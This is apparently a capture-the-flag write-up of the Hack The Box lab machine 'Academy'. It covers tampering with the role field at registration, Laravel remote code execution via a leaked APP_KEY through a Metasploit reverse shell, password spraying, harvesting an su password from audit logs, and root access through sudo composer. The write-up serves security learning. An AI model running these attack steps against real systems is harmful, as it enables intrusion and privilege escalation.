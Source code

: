 # Academy
This box is a Linux made by egre55 & mrb3n and its IP is 10.10.10.215.
Let's dive in.

We start by a complete nmap scan:
```
$ nmap -sC -sV -oA nmap/complete -p- 10.10.10.215
```
Nmap shows:
     22/tcp ssh openSSH with Ubuntu banner
          80/tcp http Apache httpd 2.4.41
	       33060/tcp mysqlx ? Nmap doesn't know that service, probably something weird

HTTP says "did not follow redirect to http://academy.htb/" so lets add that to
our hosts file and check that website.

Website is a clone of HTB Academy, a website to teach how to hack.
There's a register account, login form on the main page, then we get logged in
as "eggre55" no matter the username chosen.
Let's gobuster that website using our PHPSESSID cookie.
Gobuster shows us there's a "/admin.php" endpoint, that gets us a new login form

While checking around, i found that the "/register" endpoint takes this payload:
```
uid=shadstest&password=shadstest123&confirm=shadstest123&roleid=0
```

That role-id was a nice find. I've intercepted the request using burp suite then
set it to 1 before forwarding it. I've then logged on the app with that account,
then logged on the /admin.php endpoint, and accessed this admin page:

```
Academy Launch Planner
Item 	Status
Complete initial set of modules (cry0l1t3 / mrb3n)	done
Finalize website design 	done
Test all modules 		done
Prepare launch campaign 	done
Separate student and admin roles	done
Fix issue with dev-staging-01.academy.htb	pending
```

This gives us a new hostname to add to our hostsfile and check;

Using Firefox to acess this page, we get a 500 error and the debugging
application of what looks like to be Laravel debugging ?

The error is:
```
 UnexpectedValueException
 The stream or file "/var/www/html/htb-academy-dev-01/storage/logs/laravel.log" could not be opened in append mode: failed to open stream: Permission denied
 ```
 The debbuging app leaks the environment of the application running behind it.
 Cool stuff shown includes:

```
APP_KEY => "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
APP_DEBUG => "true"
DB_CONNECTION => "mysql"
DB_HOST => "127.0.0.1"
DB_PORT => "3306"
DB_DATABASE => "homestead"
DB_USERNAME => "homestead"

DB_PASSWORD =>"secret"
```
Decoding the AppKey does not yield text though, only bad bytes ?

---
Further research lead me to CVE CVE-2018-15133 which allows us RCE
if we have the app's secret key, which we have.
This CVE also has a metasploit module, which is nice cause i like metasploit.

```
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 10.10.10.215
RHOSTS => 10.10.10.215
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST tun0
LHOST => 10.10.14.56
msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.56:4444
[*] Command shell session 1 opened (10.10.14.56:4444 -> 10.10.10.215:55796) at 2020-12-04 13:11:20 +0100

whoami
www-data
/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@academy:/var/www/html/htb-academy-dev-01/public$ ls
ls
css  favicon.ico  index.php  js  robots.txt  web.config
```

We got in as www-data user.
Digging into both webapps for loot;
found that one:
```
# academy/database/factories/UserFactory.php
..
  return [
          'name' => $faker->name,
          'email' => $faker->unique()->safeEmail,
          'password' => '$2y$10$TKh8H1.PfQx37YgCzwiKb.KjNyWgaHb9cbcoQgdIVFlYg7B77UdFm', // secret
          'remember_token' => str_random(10),
```

bcrypt hash ; found the same in htb-academy-dev-01/database/factories

In academy/.env found this:

```
DB_PASSWORD=mySup3rP4s5w0rd!!
```

What do users do with passwords ? They re-use them !
I've sprayed that password on the users found in /etc/passwd and landed a shell
on user cry0l1t3

```
$ whoami
cry0l1t3
$ cat /home/cry0l1t3/user.txt | wc -c
33
```

We've owned user. Moving on to privesc...

For ease of work i'll add an ssh key to user cry0l1t3 and use that instead
of my metasploit shell;

I've uploaded linpeas.sh, ran it, exfiled the results, then checked them;

---

Because i was in group adm i digged for a long time in /var/log.
Like, a long time.
Out of boredom, i went back to my linpeas.out hoping to find something new
and guess what, i found this:

```
[+] Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```
Tried that:

```
cry0l1t3@academy:/var/log$ su mrb3n
Password: mrb3n_Ac@d3my!
$ whoami
mrb3n
```
So there's that.

Once logged in as mrb3n, we check sudo privileges:

```
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n:
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
    ```

We are able to run composer as root. So we'll create a new directory, create
a "composer.json" file and add it a script that will exfil the root.txt,
then execute it using composer.

```
mrb3n@academy:/tmp/.hid$ cat composer.json
{
 "scripts": {
    "pwn": "cat /root/root.txt | wc -c"
     }
     }
     mrb3n@academy:/tmp/.hid$ sudo composer run-script pwn
     33
     ```

We've owned the root account.
